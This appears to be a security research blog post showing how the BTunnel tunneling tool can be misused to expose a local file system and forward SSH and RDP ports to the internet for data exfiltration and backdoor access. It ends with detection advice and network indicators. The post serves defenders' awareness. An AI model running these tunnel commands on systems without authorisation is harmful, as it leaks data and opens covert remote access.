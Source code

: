 ```yaml
---
title: "Utilizing BTunnel For Data Exfiltration"
classes: wide
header:
  teaser:  /assets/images/btunnelTeaser.png
ribbon: red
description: "Utilizing BTunnel to create tunnels without detections in order to exfiltrate data and to have persistence across the network over the internet."
categories:
  - Research
tags:
  - Research
toc: true
---
```


# Initials

I have been working on `DevTunnels`, `CloudFlared` and they have always amazed me based on their usage i.e. providing ease to developers to expose their local codebases/applications over the internet and possibly by IT Team for troubleshooting and support. However, i always knew that threat actors are not taking a u-turn from LOLBins, Living Off Other Binaries etc. But, today it has happened in a research article covered by `Unit 42` where they uncovered a threat actor targeting `Asia` and utilizing developers systems i.e. installed `Visual Studio Code` devtunnels for data exfiltrations. 

Reference: https://unit42.paloaltonetworks.com/stately-taurus-abuses-vscode-southeast-asian-espionage/

As organizations in most of the cases are not that much taking a look into the developers tools but threat actors have always been and have been trying to get into the system and findings simple ways to exfiltrate the data outside of the organizations. These tools have proven to be worth it for threat actors. 

These tools are very simple to use yet very effective and kind of dificult to find whether any data exfiltration activity is happening as the tunnels created and hosted are on official website i.e. Microsoft, CloudFlare which are normally whitelisted everywhere. 

While doing more research and finding out other possible solutions which work in the same way, one organization from `India` had my eyes on i.e. `BTunnels`. This works completely in similar fashion where the difference is that the `Authentication` of the session is based on `API KEY`. As well as very simple to configure `Username` and `Password` for authentication. But what will happen if API KEYs of someone else is exposed and is used by threat actors to exfiltrate the data? That still remains the question on how important it is to keep the API keys safe and secure. 

# BTunnels

It is fairly simple to use this tool as its a pre-compiled binary and is not required to be installed on the local system. Simple,y by hopping onto the downdloads sections we can download our required binary for `Mac, Windows & Linux`. For the sake of this article, i will be using `Linux` binary. 

![](/assets/bTunnel/2.png)

After this, simply create an account, hop over to `Dashboard` and grab your `API KEY`. 

![](/assets/bTunnel/1.png)

Finally, running the command to see what capabilities we have. As of writing this article, we have the following options. 

1. Domain
2. File
3. Http
4. TCP 

Well, as its very clear and all 4 can be abused/illegimiate use of the functionality for data exfiltration. 

![](/assets/bTunnel/3.png)

Lets take a look few of these. 

## 1. File

The command for this is going to be as below. 

```
./btunnel file --key <API-KEY>
```

Once we execute the command, we are provided with the `Tunnel Link` to access the the local file system over the internet directly. 

![](/assets/bTunnel/4.png)

Using the tunnel link as i am not subscribed yet, we are provided with the warning. 

![](/assets/bTunnel/5.png)

After clicking `Go To Site`, we can easily access the local file system over the internet. 

![](/assets/bTunnel/6.png)

Now, this is one usecase where we can easily expose the local file system over the internet.

## 2. Http

In order to forward the local port over the internet, we can use the following command where port number can vary. 

```
./btunnel http -p 8000 --key <API-KEY>
```
We can clearly see in the below screenshot that our local port is being forwarded to Btunnels. So, we have to make sure that a server/service is running on localhost.

![](/assets/bTunnel/7.png)

I have created a simple file and started a `Python Server` on the localhost hosting one `sample.html` file. 

![](/assets/bTunnel/8.png)

Using the same link provided to us, we can access the file over the `Tunnel`. 

![](/assets/bTunnel/9.png)

## 3. TCP

This is one of the crazy parts where it does not looks malicious but what can happen here is? 

We can redirect the network traffic and create backdoors and also port forward the RDP/SSH/FTP etc. connection over the internet and connect back to them using the `BTunnels`. 

While testing this part, i received an error of not being a pro user but the command is so simple. 

```
./btunnel tcp -p 22 --key <API-KEY>
```

Similarly, we can forward the RDP by running the following command. 

```
./btunnel tcp -p 3389 --key <API-KEY>
```

and we can keep on going and can forward many other forts as required.

## 4. Domain

This command allows to persist the domains/subdomains created for the BTunnel for the current user. More information can be found on this at the below link. 

https://www.btunnel.in/docs/commands/btunnel_domain

# Conclusion

As simple as these tools are and the level of ease they bring for the developers (technical/non-technical). This can fairly be used by the threat actors to exfiltrate the data and not just that but also for C2 communications as well as Phishing/Spear Phishing. As most of these tools are not malicious by default/behavior wise, these can easily be brought onto the compromised machines, where when executed, the created tunnel can be used for malicious purposes. 

It is equally important to keep an eye on these kind of ttols and to ensure these are blocked by default by having `Application Whitelisting` policies or else at-least the `Tunnels` links are monitored. 

This only has 1 `Network IOC` and i.e. as below. 

- https://*.btunnel.co.in

However, its recommended to add the following into monitoring as well. 

- https://*.btunnel.in

Including the main domaind and subdomains. 

